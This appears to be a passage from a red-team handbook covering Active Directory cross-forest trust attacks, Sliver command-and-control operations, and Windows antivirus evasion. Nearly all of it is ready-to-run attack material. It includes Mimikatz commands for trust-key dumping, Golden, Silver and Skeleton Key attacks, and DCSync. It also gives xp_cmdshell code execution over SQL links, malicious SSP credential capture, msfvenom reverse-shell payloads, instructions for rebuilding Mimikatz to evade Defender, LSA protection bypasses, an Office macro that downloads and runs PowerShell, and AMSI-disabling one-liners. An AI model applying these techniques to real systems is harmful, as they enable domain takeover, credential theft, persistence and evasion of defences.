python3 PetitPotam.py -u user -p pass -d domain.local <attacker-ip> <target-dc> python3 dfscoerce.py -u user -p pass -d domain.local <attacker-ip> <target-dc> SpoolSample.exe <target> <attacker-fqdn> - Sweep unknown targets with
coercer coerceto enumerate which primitives still trigger:coercer coerce -u user -p pass -d domain.local -l <attacker-ip> -t <target>
11. Active Directory Trust Attacks
Trust relationships between forests exist to let users, groups, and services cross a boundary that would otherwise be closed. The same pathway is what turns a compromise in one forest into an incident in another. Three techniques cover most of what I use in practice: forged inter-realm TGTs, MSSQL database link chains, and unconstrained delegation coercion across the trust. Each has a different prerequisite set and a different noise profile, and it is worth knowing all three before touching a trust boundary in earnest.

11.0 Trust Types and What Each Allows
The specific trust type determines what attacks apply. Four types cover almost everything encountered in the wild:
| Trust | Direction | Notes |
|---|---|---|
| Parent-Child | Bidirectional, transitive | Created automatically between a parent domain and a child domain in the same forest. Enterprise Admins from the parent reach child resources by default. |
| Tree-Root | Bidirectional, transitive | Between two trees inside the same forest. Same trust key extraction and forging techniques apply. |
| External trust | One-way or bidirectional, non-transitive | Between two forests that do not share a parent, or between a domain and a domain in another forest. SID filtering is enforced on external trusts by default, which stops SID history injection unless the flag is turned off. |
| Forest | Usually bidirectional, transitive within each forest | Cross-forest but implemented as a trust between the two forest roots. Trust ticket forging via lsadump::trust targets exactly this trust key. |
| Shortcut | One or two-way | Manual optimisation between two non-adjacent child domains in the same forest. Uses its own trust key. |
| Realm | One or two-way | Between an AD domain and a non-Windows Kerberos realm. Rare, but forgery still applies if the key is recovered. |
# Confirm the trust type before attacking
Get-DomainTrust | Select-Object SourceName, TargetName, TrustType, TrustDirection, TrustAttributesSID filtering enforcement is what decides whether SID history injection across an external or forest trust succeeds. Check the TRUST_ATTRIBUTE_QUARANTINED_DOMAIN and TRUST_ATTRIBUTE_TREAT_AS_EXTERNAL bits inside trustAttributes, either bit means SID filtering is on and the SID history path is closed.
11.1 Forging Trust Tickets for Cross-Forest Access
Bidirectional forest trusts share a secret trust key that validates referrals between the two Kerberos services. Compromise a DA in one forest, extract the trust key, and forge an inter-realm TGT that impersonates users from your compromised forest into the trusted one. Access is bounded by what the trusted forest grants your side.
11.1.1 Step 1: Dump the Trust Key
Mimikatz on a compromised DC dumps trust keys alongside other LSA secrets:
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'11.1.2 Step 2: Forge and Use the Trust Ticket
Same shape as Golden Ticket, substituting the trust key for the krbtgt hash:
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<OurCompromisedDomain> /sid:<OurDomainSID> /rc4:<TrustKey> /service:krbtgt /target:<TheTargetDomain> /ticket:<PathToSaveTicket.kirbi>"'11.1.3 Step 3: Request a Service Ticket (TGS)
Rubeus uses the forged inter-realm TGT to ask the target domain for a service ticket:
.\Rubeus.exe asktgs /ticket:<PathToTicket.kirbi> /service:"<ServiceSPN>" /pttFlags:
| Flag | Description |
|---|---|
/service | SPN of the target resource (e.g. cifs/fileserver.target.local) |
/ptt | inject the returned service ticket |
11.2 Abusing MSSQL Database Links
Database links let one SQL server query another. When those links span a forest trust, they become a cross-forest RCE vector.
11.2.1 Attack Flow
- Discover MSSQL instances in the domain.
- Enumerate configured database links on each.
- Pivot through links, executing commands via
xp_cmdshell.
PowerUpSQL automates the entire chain.
11.2.2 Step 1: Discovery and Information Gathering
Get-SQLInstanceDomain
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose11.2.3 Step 2: Crawl for Database Links
Get-SQLServerLinkCrawl -Instance <Initial_SPN> -VerboseThis recursively maps every link starting from a given instance, following the graph across forest trusts.
11.2.4 Step 3: Remote Code Execution
If xp_cmdshell is disabled on a remote linked server, re-enable it by first enabling rpc out:
-- Enable RPC options on the link
EXEC sp_serveroption 'REMOTE_SQL_SERVER', 'rpc out', 'true';
-- Reconfigure the remote server
EXECUTE('sp_configure "show advanced options", 1; RECONFIGURE; sp_configure "xp_cmdshell", 1; RECONFIGURE;') AT "REMOTE_SQL_SERVER";PowerUpSQL automates command execution across every crawled link:
Get-SQLServerLinkCrawl -Instance <Initial_SPN> -Query "exec master..xp_cmdshell 'whoami'"11.3 Breaking Forest Trusts with Unconstrained Delegation
An advanced attack: use a Forest A machine with Kerberos unconstrained delegation (all DCs have this by default) to capture a Forest B DC's TGT, then DCSync Forest B.
11.3.1 The Toolchain
| Tool | Role |
|---|---|
| Rubeus | monitors incoming Kerberos tickets |
| SpoolSample (Printer Bug) | coerces authentication via MS-RPRN |
| Mimikatz | final DCSync |
11.3.2 Step 1: Monitor for Incoming Tickets
Rubeus.exe monitor /interval:5 /filteruser:$ 11.3.3 Step 2: Trigger Forced Authentication

SpoolSample.exe 11.3.4 Step 3: Inject the Captured TGT
Rubeus.exe ptt /ticket:<Base64ValueofCapturedTicket>11.3.5 Step 4: Compromise the Target Domain
lsadump::dcsync /domain: /all 11.4 SID History Injection Across Trust
Every account has a sIDHistory attribute holding SIDs the user carried across a migration. Windows adds every SID from the history into the access token at authentication time, which means an account carrying a Domain Admins SID from a trusted forest is effectively a Domain Admin there. When SID filtering is off or missing on a trust, injecting a foreign privileged SID into a compromised account's history grants persistence across the trust.
The classic Golden Ticket variant embeds the foreign SID directly into the forged TGT via the /sids flag. The KDC will still honor it as long as SID filtering is off on the trust.
mimikatz # kerberos::golden /user:Administrator /domain:<compromised.local> /sid:<compromised-sid> /krbtgt:<hash> /sids:<target-forest-enterprise-admins-sid> /pttPersistence variant: patch the sIDHistory attribute on a low-privileged domain account directly with DSInternals so the account behaves like a Domain Admin at every subsequent logon.
# Stop the NTDS service before the patch
Stop-Service -Name ntds -Force
# Inject the Enterprise Admins SID from the trusted forest into a low-priv account
Add-ADDBSidHistory -SamAccountName '<low-priv-user>' -SidHistory '<target-forest-enterprise-admins-sid>' -DatabasePath C:\Windows\NTDS\ntds.dit
Start-Service -Name ntds11.5 Foreign Security Principals
Foreign Security Principals (FSPs) are placeholder objects inside the CN=ForeignSecurityPrincipals container that represent identities from a trusted domain. When a foreign identity is added to a local group (say, a trusted-forest user added to the local Administrators of a member server), the corresponding FSP object is created. Enumerating FSPs surfaces cross-trust access paths that are otherwise invisible in the local domain graph.
# Every FSP in the current domain
Get-DomainObject -SearchBase 'CN=ForeignSecurityPrincipals,DC=<domain>,DC=<tld>' -Properties objectsid, memberof
# Group memberships that include an FSP
Get-DomainGroup | Where-Object { $_.member -match 'CN=S-1-5-21' }BloodHound resolves FSPs to their real accounts across a collected trust and shows the resulting edges directly.
11.6 One-Way Trust Exploitation
One-way trusts are asymmetric: the trusting domain accepts authentications from the trusted domain, but not the other way round. From the trusting side, users of the trusted domain are ordinary principals and can be enumerated, phished, or password-sprayed like any other users. The trust key still exists on both sides, and if the trusting DC is compromised, that key still forges cross-realm TGTs.
# Enumerate trusted-domain principals from the trusting side
Get-DomainUser -Domain <trusted-domain.local> -Properties samaccountname, memberof
# Password spray the trusted domain via kerbrute against the trusting DC
./kerbrute passwordspray -d <trusted-domain.local> --dc <trusting-dc-ip> users.txt '<password>'
# Dump the outbound trust key on the trusting side (usable to forge inbound tickets to the trusted domain)
mimikatz # lsadump::trust /patchThe trust key from a one-way inbound trust lets an attacker on the trusting side act as any user in the trusted domain against resources shared through the trust.
Methodology
- Map the forest topology:
Get-DomainTrust Get-ForestTrust nltest /domain_trusts /all_trusts - Identify inter-forest trust directions and any SID filtering weaknesses.
- Where DA in the current forest is held, extract trust keys:
Invoke-Mimikatz -Command '"lsadump::trust /patch"' - Forge an inter-realm TGT with the trust key:
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:current.local /sid:<SID> /rc4:<TrustKey> /service:krbtgt /target:target.local /ticket:trust.kirbi"' .\Rubeus.exe asktgs /ticket:trust.kirbi /service:"cifs/fs.target.local" /ptt - Enumerate MSSQL instances across trusted forests, link chains often span trust boundaries:
Get-SQLInstanceDomain Get-SQLServerLinkCrawl -Instance <spn> -Query "exec master..xp_cmdshell 'whoami'" - Look for unconstrained delegation on non-DC hosts; coerce a target-forest DC to authenticate:
Rubeus.exe monitor /interval:5 /filteruser:$ SpoolSample.exe target-dc.external.local dc.compromised.local Rubeus.exe ptt /ticket:<base64> - With a target-forest DC ticket or hash, DCSync the external forest:
mimikatz # lsadump::dcsync /domain:/all
12. Intro to C2 Operations with Sliver
Sliver is BishopFox's open-source C2, aimed at red teams looking for an alternative to Cobalt Strike without giving up modern features. Every implant gets its own asymmetric key pair, so burning one does not compromise the rest of the fleet. Transport options cover mTLS, WireGuard, HTTP(S), and DNS, which is more than enough to build resilient callback paths through most egress filters.
Server and client run on macOS, Windows, and Linux. The implant target list mirrors that, with everything the Go compiler supports layered on top. The framework is not as polished as Cobalt Strike in a few corners, but it is free, actively maintained, and increasingly the default in mixed-tooling engagements.
12.1 Installation
Grab the latest release from the BishopFox GitHub, or install with the vendor script:
curl https://sliver.sh/install | sudo bashStart the client:
sliver12.2 Creating Listeners
Sliver supports four transports out of the box. HTTP(S) is the most common because it blends with normal traffic; DNS is the fallback when only DNS egress is allowed; mTLS is the default for high-trust operator networks; WireGuard is used when a persistent point-to-point tunnel is preferred over polling.
# HTTP / HTTPS
http --lport 80
https --lport 443 --cert /path/to/cert.pem --key /path/to/key.pem
# DNS listener: cover domain must resolve to the Sliver server via NS delegation
dns --domains c2.<attacker-domain.com>
# mTLS
mtls --lport 8888DNS is slow (each request encodes a small chunk of C2 traffic in the subdomain) but survives environments where HTTP egress is fully blocked. Delegate the cover subdomain via an NS record on the public DNS before the listener will resolve.
12.2.1 Implants vs Beacons vs Stagers
Three artifact types serve different purposes:
| Type | Behavior | When to reach for it |
|---|---|---|
| Session implant | Interactive, full-featured payload. Every command runs immediately over the transport. | Hands-on-keyboard work when the transport is stable and detection risk is acceptable. |
| Beacon | Polls the C2 on a configurable interval and jitter, runs queued commands, then sleeps. | Long-haul access on monitored networks. Sleep and jitter blend into normal user activity. |
| Stager | Small shellcode blob that fetches and runs the real implant. | Delivery vectors that cannot carry the full implant, or when the initial transport differs from the final callback channel. |
# Beacon with 60-second interval and 30-second jitter
generate beacon --http <attacker-fqdn> --seconds 60 --jitter 30 --save <save-path>
# Stager profile: generate a small shellcode stub that pulls the implant
profiles new --http <attacker-fqdn> --format shellcode <profile-name>
stage-listener --url tcp://0.0.0.0:8443 --profile <profile-name>12.2.2 Sideload and Canary Domains
sideload loads an arbitrary DLL into the beacon process and calls one of its exports, which is how you run tools that ship as DLLs (mimikatz variants, some BOF-style loaders). canary injects unique domain names into an implant that will phone home if the implant is analyzed in a sandbox with unrestricted DNS.
# Sideload a DLL and call an export
sideload <path-to-loader.dll> --entry-point ExecuteCmd --args '<cmd>'
# Add a canary domain during implant generation
generate --http <attacker-fqdn> --canary canary-<random>.<attacker-domain.com> --save <save-path>
# Any DNS resolution of that canary tells you the implant has been analyzed12.3 Generating Implants
Sliver supports HTTP, HTTPS, DNS, and mTLS listeners. HTTP on the default port:
httpInspect running listeners and staging profiles:
jobs12.3 Generating Implants
The generate command builds implants tailored to a listener. A regular implant (interactive shell) instead of a beacon:
generate --http <ip> --save Beacons are stealthier but less convenient for exploratory work, regular implants suit interactive testing.
12.4 Interacting with the Active Session
When the implant calls home, a new session appears. List sessions and interact:
sessions
use <session_id>12.5 Initial Reconnaissance Post-Exploitation
Essential commands after landing on a host:
| Command | Description |
|---|---|
info | OS, arch, user, privileges |
whoami | current user context |
netstat | network connections and open ports |
ps | running processes and escalation opportunities |
download <file> | pull files off the target |
12.6 Network Discovery
Sliver ships with basic network reconnaissance built in:
net scan
portscan 12.7 Privilege Escalation Check
users
getprivs
ls -w12.8 Lateral Movement
When another target is identified:
- Create a new implant for the destination host
- Use Sliver's payload delivery or manual transport (SMB, PsExec, SSH)
- New sessions appear in the
sessionslist; interact withuse <session_id>
12.9 AD Persistence with Sliver
12.9.1 Golden Ticket Attack
Dump KRBTGT via lsadump::lsa /patch:
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC_FQDN>Forge and inject a Golden Ticket:
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain_SID> /krbtgt:<HashOfKrbTgtAccount> /id:500 /groups:512 /ptt"'Parameter reference:
| Flag | Description |
|---|---|
/user | impersonated user |
/domain, /sid | target domain FQDN and SID |
/krbtgt | stolen KRBTGT NTLM |
/id:500 | default Administrator RID |
/groups:512 | Domain Admins group ID |
/ptt | inject into current session |
12.9.2 DCSync Attack
Mimikatz-based DCSync:
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DomainName>\<TargetUser>"'Impacket's secretsdump, NTLM auth:
secretsdump.py <Domain>/<Username>:<Password>@<DC_IP_or_FQDN> -just-dc-ntlmKerberos auth (stealthier):
secretsdump.py -no-pass -k <Domain>/<Username>@<DC_IP_or_FQDN> -just-dc-ntlm12.9.3 Silver Ticket Attack
Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<TargetMachine_FQDN> /service:<ServiceType> /rc4:<ServiceAccount_NTLM_Hash> /user:<UserToImpersonate> /ptt"'Parameters (delta from Golden):
| Flag | Description |
|---|---|
/target | FQDN of the server hosting the service |
/service | cifs, http, mssql, etc. |
/rc4 | NTLM hash of the service account |
/user | impersonated user |
12.9.4 Skeleton Key Attack
Patches LSA on a DC so every account accepts a master password (default "mimikatz") in addition to its own. The user's real password still works. Backdoor is removed on DC reboot.
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DC_FQDN>
Enter-PSSession -ComputerName <AnyMachine> -Credential <Domain>\Administrator
# When prompted for password, enter "mimikatz"12.9.5 DSRM Abuse
Every DC has a local Administrator for Directory Services Restore Mode. Its password is often unrotated. By default that account is DSRM-only, but a registry tweak allows network logon.
Step 1, dump the DSRM hash:
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <DC_FQDN>Step 2, allow network logon:
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -VerbosePtH with the DSRM hash gives durable local Administrator on the DC.
12.9.6 Custom Security Support Provider (SSP) Injection
SSPs are DLLs Windows loads to handle authentication. Register a malicious SSP and it captures the plaintext of every subsequent logon on that host.
Manual registry method:
# Step 1: Read current security packages
$packages = Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' | Select-Object -ExpandProperty 'Security Packages'
# Step 2: Add mimilib
$packages += "mimilib"
# Step 3: Write back: reboot required
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name 'Security Packages' -Value $packagesIn-memory Mimikatz method (no reboot needed):
Invoke-Mimikatz -Command '"misc::memssp"'Subsequent logon credentials get logged to C:\Windows\System32\kiwissp.log.
12.10 Beacon Object Files (BOFs)
Sliver runs BOFs compiled for its own COFF loader. A BOF is a small C program compiled to an object file that runs inside the implant process without spawning a new process. That keeps post-exploitation activity inside a single memory space and avoids the parent-child chains that behavioral sensors look for.
# Load and run a BOF against the active session
coff-loader <path-to-bof.o> <args>
# Common example: run a SharpHound-collection BOF that never touches disk
coff-loader ./sharphound.o -c All -d <domain.local>12.11 Aliases
Aliases wrap external .NET assemblies so they can be executed with a single command inside a Sliver session. Once an alias is installed, commands like rubeus or seatbelt become first-class Sliver operations that invoke execute-assembly against the packaged binary with the arguments passed in.
# Install an alias from a local directory
aliases install <path-to-alias-directory>
# List installed aliases
aliases
# Use the alias like a native command
rubeus kerberoast /outfile:kerb.hash12.12 Armory
The Armory is Sliver's package manager for aliases and extensions. It fetches signed packages from public repositories, verifies them, and installs them into the local Sliver configuration. Handy for pulling common .NET assemblies (Rubeus, Seatbelt, SharpHound) and BOFs (situational-awareness, credential-dumping) without hunting them down manually.
# Search the Armory for a package
armory search kerb
# Install an alias or extension
armory install rubeus
armory install situational-awareness-bof
# Update the local index
armory refresh12.13 WireGuard Listener
Sliver ships a WireGuard transport as an alternative to HTTP(S) or mTLS. WireGuard runs over UDP with strong cryptography built in, and its traffic looks like generic UDP rather than a recognizable C2 pattern. Useful when the target segment tolerates outbound UDP but blocks TCP tunnels.
# Start a WireGuard listener
wg --lport 53 --nport 8888 --keylport 1337
# Generate a WireGuard implant tied to the listener
generate --wg <attacker-fqdn>:53 --save <save-path>12.14 Multiplayer Mode
Multiplayer mode lets multiple operators share a Sliver server. The server exports operator configuration files that ship the mTLS certificate and connection details for a specific operator identity. Everything the operators run is logged with their identity attached.
# On the server: enable multiplayer and generate an operator config
multiplayer
new-operator --name <operator-name> --lhost <server-fqdn> --save <save-path>
# On the operator's machine: import the config and connect
sliver-client import <operator-name>.cfg
sliver-clientCombined with the Armory and shared aliases, multiplayer turns Sliver from a single-operator tool into a team infrastructure comparable to Cobalt Strike's team-server model.
Methodology
- Deploy the Sliver server on infrastructure separate from your attacker workstation:
curl https://sliver.sh/install | sudo bash sliver-server - Create an HTTP or HTTPS listener; add DNS fallback for resilient beacon channels:
https dns --domains c2.example.com jobs - Generate an implant matching the target platform:
generate --http <ip> --savegenerate beacon --http <ip> --seconds 60 --jitter 30 --save - Deliver via a phishing payload, malicious document, or existing foothold.
- Once the session lands, run the initial recon commands:
sessions use <session_id> info whoami getprivs ps - Map the segment with net scan and portscan:
net scanportscan - Layer AD persistence attacks on top of Sliver's execution primitives:
execute-assembly Rubeus.exe golden /user:Administrator /domain:/sid:<SID> /krbtgt:<hash> /ptt execute-assembly SharpKatz.exe --Command dcsync --User krbtgt --Domain --DomainController - Rotate C2 channels and rebuild implants regularly during long engagements.
13. Introduction to Windows Evasion Techniques
Modern Windows presents an evasion problem in three layers: static signature detection on artifacts, runtime scanning as code executes, and application whitelisting deciding what gets to run at all. Getting past each layer means understanding what triggers the detection and either changing what the sensor sees, or moving execution to a code path the sensor does not inspect. The techniques in this section are the primitives, not the payloads; combining them properly is what makes the difference between a burnt tool and a landed implant.

13.1 How Signature-Based Detection Works
Traditional AVs match byte strings against known-bad signatures. Two facts follow: (1) modifying a few bytes often defeats detection, (2) byte-string signatures are more precise than heuristics because they pin a specific sequence to find.
13.2 Bypassing Signature-Based Scanning
13.2.1 Splitting the Binary
Break the file into chunks and scan each, the flagged chunk contains the signature. PowerShell tool Find-AVSignature automates it:
Find-AVSignature -StartByte 0 -EndByte max -Interval 100 -Path mal.exe -OutPath mal_1 -Verbose -Force13.2.2 Scanning Each Section
ClamScan flags each split section:
.\clamscan.exe mal_113.2.3 Replacing Malicious Bytes
Zero the flagged bytes:
$bytes = [System.IO.File]::ReadAllBytes("mal.exe")
$bytes[1111] = 0
[System.IO.File]::WriteAllBytes("mal_mod.exe", $bytes)13.3 Bypassing AV with Metasploit
13.3.1 Encoders
Msfvenom encoders obfuscate the payload. shikata_ga_nai (x86) and zutto_dekiru (x64) are the ones people still reach for. Note: encoders are mainly useful for dodging bad characters, not for evading modern AV:
msfvenom -p windows/meterpreter/reverse_https LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f exe -o met_shikata.exe
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> LPORT=<PORT> -e x64/zutto_dekiru -f exe -o met_zekiro.exe-i <n> repeats encoding n times.
13.3.2 Encryptors
Encryptors provide further obfuscation but their decrypter stubs remain detectable via heuristics:
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> LPORT=<PORT> --encrypt aes256 --encrypt-key <RANDOM_KEY> -f exe -o mal_aes.exe13.4 Bypassing AV with C#
13.4.1 XOR and AND-Based Encryption
A simple C# runner using Win32 APIs, with the shellcode encrypted via a Caesar/XOR combination. Resources like Metasploit Unleashed and Hiding Metasploit Shellcode document the shellcode runner pattern in depth.
13.4.2 Sleep Timers
Delays defeat heuristic scanners that only spend a bounded amount of time on each file. Real sleeps are the safest; API-level sleeps are ignored by some AVs:
[DllImport("kernel32.dll")]
static extern void Sleep(uint dwMilliseconds);
static void Main(string[] args)
{
DateTime t1 = DateTime.Now;
Sleep(5000);
double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
if (t2 < 5) {
return;
}
}13.5 AV Evasion with Mimikatz
Mimikatz is signatured aggressively on every serious platform, but the source is open (gentilkiwi/mimikatz) and the build system is a plain Visual Studio solution. Rebuilding from source with a handful of targeted changes routinely gets a working binary past the static detections that flag the upstream release. If the environment also enforces LSA Protected Process Light (PPL) on lsass.exe, the credential-dumping side of Mimikatz will need a driver-based unhook or a ProtectedProcessLight bypass; check the registry first.

Build environment on a dev VM (kept separate from the test VM):
- Windows 10/11 x64 with Defender disabled on the dev VM only.
- Visual Studio 2019 or 2022 with the Desktop development with C++ workload and Windows SDK 10.0.19041 or newer.
- Git for Windows:
git clone https://github.com/gentilkiwi/mimikatz.git. - Open
mimikatz.sln, selectRelease / x64, and build once with F7 to confirm the baseline compiles.
13.5.1 String Substitution, Specific Targets
The strings Defender fingerprints most often live in a small handful of files. Do the substitutions with VS's Find All in Files (Ctrl+Shift+F) or sed, rebuild after each pass, and fix any renamed identifiers.
| File | What it holds |
|---|---|
mimikatz/mimikatz.c | Banner text ("mimikatz 2.2.0", "gentilkiwi", GitHub URL) |
mimikatz/mimikatz.rc | Version resource: CompanyName, FileDescription, ProductName, OriginalFilename |
mimikatz/mimikatz.ico | Kiwi icon that visually identifies the binary |
modules/kuhl_m_sekurlsa.c | sekurlsa module, the string "sekurlsa" is a common trigger in .rdata |
modules/kuhl_m_privilege.c | privilege::debug messages |
modules/kuhl_m_lsadump.c | lsadump command banners and DCSync output strings |
Substitutions worth making across the whole tree:
"mimikatz" -> "please_subscribe"
"MIMIKATZ" -> "PLEASE_SUBSCRIBE"
"Mimikatz" -> "Please_subscribe"
"gentilkiwi" -> "vendor"
"sekurlsa" -> "sekurlsa2" # touch strings only, not identifiers
"Benjamin DELPY" -> "Contoso Diagnostics"Do not blind-replace kiwi, that token appears in many kiwi_* internal identifiers, and renaming it breaks the build. Limit kiwi substitutions to string literals (double-quoted) inside .c files.
13.5.2 Windows Metadata (Resource File)
Open mimikatz/mimikatz.rc and rewrite the VS_VERSION_INFO block so the compiled binary presents as a Windows utility:
VALUE "CompanyName", "Contoso Corporation"
VALUE "FileDescription", "System Diagnostics Utility"
VALUE "FileVersion", "10.0.19041.1"
VALUE "InternalName", "sysdiag"
VALUE "LegalCopyright", "Copyright (C) Contoso Corporation. All rights reserved."
VALUE "OriginalFilename", "sysdiag.exe"
VALUE "ProductName", "Windows System Diagnostics"
VALUE "ProductVersion", "10.0.19041.1"Replace mimikatz.ico with a Windows-utility icon. IconExtract or Resource Hacker can pull an icon from any signed Microsoft binary (mmc.exe, taskmgr.exe). Keep the icon filename the same or update the ICON line in the .rc file to match.
13.5.3 Ordinal-based API Loading
Defender's signature set includes named imports that betray Mimikatz's intent. The most flagged is I_NetServerPasswordGet, an undocumented netapi32 export used to pull machine-account passwords. Resolve it by ordinal instead of name so it never appears as a string in the IAT.
Confirm the ordinal on the target Windows version (it can shift between builds):
dumpbin /exports C:\Windows\System32\netapi32.dll | findstr /i "I_NetServerPassword"
# ordinal 62 -> I_NetServerPasswordGet on most Win10/11 buildsThen replace the named lookup in the source:
/* Before: the string "I_NetServerPasswordGet" appears in the binary */
HMODULE h = LoadLibraryA("netapi32.dll");
FARPROC fn = GetProcAddress(h, "I_NetServerPasswordGet");
/* After: same call, no visible name */
HMODULE h = LoadLibraryA("netapi32.dll");
FARPROC fn = GetProcAddress(h, MAKEINTRESOURCEA(62));
typedef NTSTATUS (WINAPI *pINSPG)(LPWSTR, LPWSTR, ULONG, PVOID*);
pINSPG NSPG = (pINSPG)fn;Other worth-swapping named imports in the mimikatz source, each looked up by ordinal on the target version:
netapi32.dll:I_NetServerPasswordGet,I_NetServerPasswordSet,I_NetServerTrustPasswordsGetadvapi32.dll:LsaOpenPolicy,LsaRetrievePrivateData,LsaEnumerateAccountsWithUserRightsamlib.dll:SamConnect,SamLookupNamesInDomain,SamOpenUser,SamGetGroupsForUser
13.5.4 Locating the Trigger (DefenderCheck + Find-AVSignature)
Two tools narrow down exactly which byte range Defender flags. Run them after each rebuild and iterate until they return clean.
# DefenderCheck (Matterpreter): runs an offline MpCmdRun scan and reports the trigger offset
DefenderCheck.exe mimikatz.exe
# PowerSploit's Find-AVSignature: splits the binary and asks Defender to scan each chunk
Find-AVSignature -StartByte 0 -EndByte max -Interval 100 -Path mimikatz.exe -OutPath mimi_split -Verbose -ForceIn observed order of frequency, Defender's Mimikatz signatures fire on:
.rdatastring literals, banner text and error messages (fixed by string substitution).- Import Address Table entries like
I_NetServerPasswordGetand its neighbors (fixed by ordinal loading). - Version resource: CompanyName, ProductName, OriginalFilename (fixed by rewriting the Windows metadata block).
- Occasional
.textbyte patterns from specific routines, usually thesekurlsa_msvlogic.
For a fast diagnostic that pins the trigger to a specific offset, zero the flagged range in a copy of the binary and rescan. If Defender goes quiet, the trigger is confirmed at that offset; if not, keep looking:
$bytes = [System.IO.File]::ReadAllBytes("mimikatz.exe")
0x1111..0x1130 | ForEach-Object { $bytes[$_] = 0 }
[System.IO.File]::WriteAllBytes("mimi_zero.exe", $bytes)13.5.5 Compile and Test Loop
- In VS, right-click the solution → Rebuild Solution so intermediate
.objand.pdbfiles are regenerated. - Copy
x64\Release\mimikatz.exeto an isolated Defender-enabled test VM (never the dev VM). - Run the binary and record the exact signature name Defender reports (Event Viewer → Microsoft-Windows-Windows Defender/Operational, event ID 1116).
- Signature-name suffixes point at the detection type:
!MTB= machine-learning behavior,.A/.B= definition-based string / byte pattern,!ml= cloud-side ML rule. - Rerun DefenderCheck to confirm the change, then move to the next signature.
13.5.6 LSA PPL Bypass
Even a fully evaded binary fails against LSA Protected Process Light. Check the registry state first:
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa | Select-Object RunAsPPL, RunAsPPLBoot
# RunAsPPL = 1 means lsass.exe is protectedThree practical paths past it:
| Approach | Mechanism | Trade-off |
|---|---|---|
mimidrv.sys | Load the signed driver shipped with Mimikatz, then !+ followed by !processprotect /process:lsass.exe /remove. | Heavily signatured. Expect Defender and any modern EDR to catch it on load. |
| Signed vulnerable driver | Use RTCore64.sys, gdrv.sys, or ProcExp with a helper like PPLKiller or PPLDump to write the EPROCESS Protection field and clear PPL on lsass. | Requires the target driver not to be on the Windows vulnerable-driver blocklist. |
| Snapshot-based dumping | Duplicate a handle to lsass and read it out with nanodump, dumpert, HandleKatz, or MirrorDump. No driver, no protection bit toggle. | Quieter path in practice. Handle acquisition is the failure point if EDR blocks PROCESS_VM_READ to lsass. |
13.6 Advanced VBA Techniques
13.6.1 VBA Stomping
Strip the visible VBA source while leaving the compiled P-code intact, the macro runs but source-based AV misses it.
13.6.2 Executing PowerShell via WMI
WMI (Win32_Process.Create) breaks the Office parent-child process chain, defeating heuristic detections that flag Word/Excel spawning PowerShell:
Sub MyMacro
strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http:///run.txt'))"
GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub 13.6.3 String Obfuscation in VBA
Reverse strings at runtime, the source string never matches the plaintext signature:
strArg = StrReverse("your obfuscated payload here")13.7 Runtime Evasion
13.7.1 Definition of Runtime Detection
Runtime detection scans code before execution and classifies it based on strings, heuristics, or behavior. If assessed as malicious, execution is halted and the artifact may be quarantined. Runtime scanners read from memory and observe API calls, unlike static AV, which reads from disk.
Windows ships AMSI as its native runtime detection stream. AV products often consume AMSI events as part of their heuristics.
13.7.2 AMSI
AMSI is the Antimalware Scan Interface, a Windows API letting applications submit content for scanning by any registered anti-malware product. Fully integrated into: User Account Control, PowerShell, Windows Script Host (wscript/cscript), JavaScript, VBScript, and Office VBA macros.
AMSI is only invoked for code loaded from memory via the CLR. On-disk executables are assumed to be scanned by Defender directly.
13.8 AMSI Bypass Methods
13.8.1 PowerShell Downgrade Attack
PowerShell 5.0 introduced AMSI hooks. Downgrading to 2.0 removes them entirely, the attack only requires a one-liner. Modern hosts often lack PS 2.0, but where it's present, this is trivial:
PowerShell -Version 2
powershell.exe -Version 2.0 -Command {<scriptblock>} -ExecutionPolicy <ExecutionPolicy>
powershell.exe -Version 2.0 -Command "Import-Module .\Invoke-Mimikatz.ps1;Invoke-Mimikatz" -Command '"privilege::debug"'13.8.2 PowerShell Reflection Attack
PowerShell reflection accesses .NET assemblies at runtime. The AMSI utility class exposes an amsiInitFailed field, setting it to $true disables AMSI for the current process. The one-liner:
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)Broken down step by step:
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
.GetField('amsiInitFailed','NonPublic,Static')
.SetValue($null,$true)The snippet obtains the AmsiUtils type, gets the amsiInitFailed field, and sets it to true. AMSI subsequently returns AMSI_RESULT_NOT_DETECTED = 1 without inspecting the content.
13.8.3 Automated Tools
amsi.fail generates obfuscated PowerShell snippets from a pool of known bypasses. Every request produces unique output, no signatureable pattern.
AMSITrigger identifies strings in a script that trigger AMSI signatures, modifying them keeps the file clean without relying on a runtime bypass:
AmsiTrigger_x64.exe -i "malicious-script.ps1" -f 3Flags: -f 3 shows all flagged strings, -f 2 adds line numbers, -f 1 shows only the triggers.
13.9 Application Whitelisting & Credentials
Constrained Language Mode, AMSI, and AppLocker are three of the most consistently encountered controls once execution has landed on a modern managed endpoint. Each restricts a different layer of the runtime, and each has a well-known bypass primitive that costs nothing to try before falling back to something noisier.
